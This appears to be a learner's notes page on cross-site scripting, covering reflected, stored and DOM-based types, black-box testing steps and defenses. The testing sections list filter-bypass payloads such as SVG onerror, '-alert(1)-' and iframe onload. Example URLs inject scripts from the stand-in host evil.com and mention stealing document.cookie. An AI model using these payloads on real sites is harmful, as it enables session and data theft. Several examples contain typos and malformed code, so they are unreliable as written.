



# XSS CROSS SITE SCRITPING

SOP

> Simple Origin Policy
>
> * Its a Policy that stop  one website to reading and writing data toa another website.
> * the policy check three different things which is the Protocol, the Host , the PORT   if all three is same for two different website then the browser allow cross origin read or write

Browser

> The browser sees all the response data as an HTML, which is also specific by the content-type:text/html
>
> the browser doesn't know and can't know without any extra information that the input which is send out has been reflected back in the response, so it assumes the whole block to be HTML and renders it out to the screen.

### XSS Cross Site Scripting

> * As far as I Know Microsoft give the word XSS and personally i don't like this name for vulnerability
> * XSS is mainly just A javascript injection technique.
>
> A Vulnerably web application that Allows the attacker to send malicious code to the victim. which results in Cookie steal(password), sensitive data
>
> * javascript: the malicious code mostly is in javascritp, javascript is a language which used to perform action in the web application.


### How does its works

> A Vulnerably web application tricked by the attacker to return the malicious code to the user, then a user executes the malicious code which results in cookie steal, sensitive data or compromised the system.

### Impact Of XSS

> * Break the CIA Traids
> * Senesitive Data Exposure(PII, Password)

### **XSS Ashar Javed's Methodology**

> &#x20;Ashar Javed provides a comprehensive methodology for XSS testing. His approach covers various aspects and provides a structured way to identify and exploit XSS vulnerabilities. Explore his methodology for a thorough understanding.

### BXSS HUNTER HOSTED

> **BXSS Hunter:** BXSS Hunter is a hosted solution that simplifies blind XSS testing. Its user-friendly interface and effective reporting make it an excellent choice for discovering and exploiting blind XSS vulnerabilities. Check out BXSS Hunter for an easy and efficient blind XSS hunting experience.

### PARAMETERS

* **List of Potential XSS Parameters:**

<pre><code><strong>q
</strong><strong>s
</strong>search
id
lang
keywords
year
view
email
type
name
p
month
image
list type
url
terms
key
login
begindate
enddate
</code></pre>

### Types of XSS Cross Site Scripting

> * Reflected XSS Cross Site Scripting: When the malicious code come from current HTTP request.
> * Stored XSS Cross Site Scripting: When the malicious code come from database.
> * DOM Based XSS Cross Site Scripting: When the malicious code come from Client side rather the Server side.

### Reflected XSS

> Reflected XSS Cross Site Scripting: When the malicious code come from the current HTTP request.

> Allows to execute the malicious code into a web application input parameters (Search bar) and the web application execute the malicious code which response the activity on browser.

<figure><figcaption><p>Reflected XSS</p></figcaption></figure>

#### What is Reflected XSS

> What is reflected XSS
>
> * When the application has an input parameter where the user request and get response input reflected.
>   * Like : [https://amazon.in/shopping/laptop=?hp](https://amazon.in/shopping/laptop=?hp)
> * Where the hp is reflected in the response.
> * Assuming the web application is vulnerably then the attacker tricked the web application or add the malicious code.
>   * Like: [https://amazon.in/shopping/laptop=?hp\<scirpt>https://evil.com/badcode.js\</scirpt](https://amazon.in/shopping/laptop=?hp%3cscirpt%3ehttps://evil.com/badcode.js%3c/scirpt)>


#### Example of Reflected XSS

> * User Click the attacker malicious link which look legits
> * The request hit the vulnerably web application or Attacker Server (Redirect)
> * The server takes the malicious code and response to User browser with the attacker malicious code.
> * the browser trusts the server and results the malicious code to User&#x20;
> * The malicious code can steal PII, Session cookie, compromised the User.

#### Key Points

> * The Malicious code is not stored or executed in the Server its response to the browser and browser executed execute the malicious code.
> * The browser should validate and sanitized the inputted data.
> * Reflected XSS is cooler because it targets, he random user and exploit the trust of the web application.

### Blackbox Reflected XSS

> * Check the request and response any defenses header,
> * Check for reflect response from the web application.
> * Fill all the input parameter and check the response in the source code.
> * Check the code how the parameter in stored.
> * If its reflected, then check for the code any defense coding.
> * Use the `crtl + f` and checked in the source code the inputed parameters.
> * If its in the HTML tags try to break from then using the exits tags and syntax like `` `>` , “, ‘ </> `` etc
> * Execute some JavaScript function like `alert, print` (its trigger the printing function for user) , mostly alert is block from browser end.
> * The script word is being replace with space as an input sanitization which can be bypass by used the big letter `SCRIPT` or `SSCCRRIIPPTT`
> * The closing tags and double quote which help in closing HTML tags can be replaced with space which can be bypass by using ` & <svg>` tags with javascript fucntion like `onclick,onerror,onload, "onmouseover="alert(1) , '-alert(1)-' , `&#x20;
> * Angle Brackets HTML encoding break the code to view the quote which is double or single and then use `- (hyfean)` with javascript function `[Hexruinx'-alert(1)-']`
> * Angle Brackets HTML Double encoding break the code to view the quote which is double or single , user input is being outputed in single quote. and the backslash is being outputed in double backslash. using that to reflect JS `\'-alert()//`&#x20;
> * SVG allowed `<animatetransform%20§§=1>`

### Defenses against Reflected XSS

>
>
> * **Create a Function to Sanitize Code**
>   * Use libraries like AngularJS to sanitize input before using `innerHTML`.
> * **User Validation and Input Sanitization**
>   * **Validate Input on Arrival**:
>     * **URLs**: Ensure they start with `http` or `https`.
>     * **Numeric Values**: Ensure they are actually numbers.
>     * **Character Sets**: Allow only expected characters.
> * **Content Security Policy (CSP)**
>   * CSP helps control what resources can be loaded and executed on your web page.
>   *   Example CSP:
>
>       ```http
>       httpCopy codeContent-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; frame-src 'none'; base-uri 'none';
>       ```
> * **Sanitize Code**
>   * Remove `<script>` tags or replace them with URL encoding (e.g., `%3Cscript%3E`).
>   * Remove or replace opening `<`, closing `>`, and backslashes `\` with their URL-encoded equivalents.
> * **Encode Data on Output**
>   * **HTML Context**: Replace special characters with HTML entities.
>     * `<` becomes `&lt;`
>     * `>` becomes `&gt;`
>   * **JavaScript Context**: Unicode-escape non-alphanumeric characters.
>     * `<` becomes `\u003c`
>     * `>` becomes `\u003e`
> * **Allowing Safe HTML**
>   * Use libraries like DOMPurify to sanitize user input.
>   * Convert user-provided content from markdown to HTML for added safety.

### Stored XSS

> * The client browser sends malicious code to the server which execute in the server and response in the browser.
> * A Vulnerably web application where the feature of comments and post is there and the attacker use that feature and post malicious code and the server stored it, when the user click the attacker post that will compromise the user system.

<figure><figcaption><p>Stored XSS</p></figcaption></figure>

#### What is Stored XSS

> * When the web application has store feature like comment or post.
>   * Like : https://threads.com/comments=?normal+user+writingcomments
> * Assuming web application is vulnerably to stored XSS then the attacker tricked or add the malicious code int the web application
>   * Like : https://threads.com/comments=?normal+user+writingcomments\<script>https://evil.com\</script>
> * After the malicious code is stored in the web application and the user click the comments (in case) then its trigger the JS to redirect to the evil.com (evil.com can be replaced with JS function like document.cookie which steal cookie and send to attacker.)

### Blackbox Stored XSS

> * Check the request and response any defenses header,
> * Fill all the input parameter and check the response in the source code.
> * Check the code how the parameter in stored.
> * Use the `crtl + f` and checked in the source code the inputted parameters.
> * If its in the HTML tags try to break from then using the exits tags and syntax like `` `>` , “, ‘ </> `` etc.
> * Execute some JavaScript function like alert, print (its trigger the printing function for user) , mostly alert is block from browser end.
> * The script word are being replace with space as an input sanitization which can be bypass by used the big letter `SCRIPT`
> * The closing tags and double quote which help in closing HTML tags can be replaced with space which can be bypass by using ` & <svg>` tags with javascript fucntion like `onclick,onerror,onload`
> * Angle brackets and doubts quotes HTML encoding can be bypass by `http://evil.com?&apos;-alert(1)-&apos;`

### Defense against Stored XSS

>
>
> * **User Validation and Input Sanitization**
>   * Validate and sanitize user input at the point of entry.
> * **Content Security Policy (CSP)**
>   * Use CSP to control resource loading and script execution.
> * **Create a Function to Sanitize Code**
>   * Remove `<script>` tags or replace them with URL encoding.
>   * Remove or replace opening `<`, closing `>`, and backslashes `\` with their URL-encoded equivalents.
> * **Encode Data on Output**
>   * **HTML Context**: Replace special characters with HTML entities.
>     * `<` becomes `&lt;`
>     * `>` becomes `&gt;`
>   * **JavaScript Context**: Unicode-escape non-alphanumeric characters.
>     * `<` becomes `\u003c`
>     * `>` becomes `\u003e`
> * **Allowing Safe HTML**
>   * Use libraries like DOMPurify to sanitize user input.
>   * Convert user-provided content from markdown to HTML for added safety.

### DOM Based XSS

> * Document Object Model is the webpage represent of elements of pages.
>   * A Website contain javascript that trick into attacker control value on (source Code) and pass it on to javascript function (sink) that support  dynamic code exxecution.
> * Where the user input directly land on javascript code this happen in client side.
> * An attacker input malicious code in the web application that browser load and compromised the system.
>
> Example
>
> * A web application allows to change theme where the attacker input the malicious code which send to client and the client browser load which result in compromised the system or steal the cookie.

<figure><figcaption><p>DOM Based XSS</p></figcaption></figure>

#### What is DOM-Based

> * Attacker tricked the web application user input parameters which has existing JavaScript into malicious code that exploit in client browser. which results in cookie stealing and more.
> * There is a submit feature which uses JavaScript to submit the form
>   * Like: https://createprofile.com/lang=english
> * Assuming the web application is vulnerably to DOM the attacker uses the `lang` function (english) parameter with the malicious code in the web application.
>   * Like: https://createprofile.com/lang=english=alert(1) to https://createprofile.com/lang-english

### Blackbox  DOM Based XSS

> * Check the request and response any defenses header,
> * Fill all the input parameter and check the response in the source code.
> * check the script is where the html tags is called in the JavaScript.
> * Break the html using the closing tags or img tags and insert JavaScript tag and JavaScript function.
> * get out the html tag using ` or <svg>` using the onerror javascript fucntion which results an load an error on browser which trigger the `onerror` and the parameter after `onerror` function ``.
> * If the iframe to get out of HTML Tags `<iframe src="https://website/#" onload="this.src+=''"></iframe>.`&#x20;
> * `"></select> , "-alert(1)}//, <>`\
>

### Defense against DOM-Based XSS

>
>
> * **User Validation and Input Sanitization**
>   * Validate and sanitize user input at the point of entry.
> * **Content Security Policy (CSP)**
>   * Use CSP to control resource loading and script execution.
> * **Create a Function to Sanitize Code**
>   * Remove `<script>` tags or replace them with URL encoding.
>   * Remove or replace opening `<`, closing `>`, and backslashes `\` with their URL-encoded equivalents.
> * **Encode Data on Output**
>   * **HTML Context**: Replace special characters with HTML entities.
>     * `<` becomes `&lt;`
>     * `>` becomes `&gt;`
>   * **JavaScript Context**: Unicode-escape non-alphanumeric characters.
>     * `<` becomes `\u003c`
>     * `>` becomes `\u003e`
> * **Allowing Safe HTML**
>   * Use libraries like DOMPurify to sanitize user input.
>   * Convert user-provided content from markdown to HTML for added safety.

Mutation XSS

> * Where the user input is mutated or change in some way by the browser before inserting into the DOM.

## MindMap


XSS Cross Site Scripting MindMap

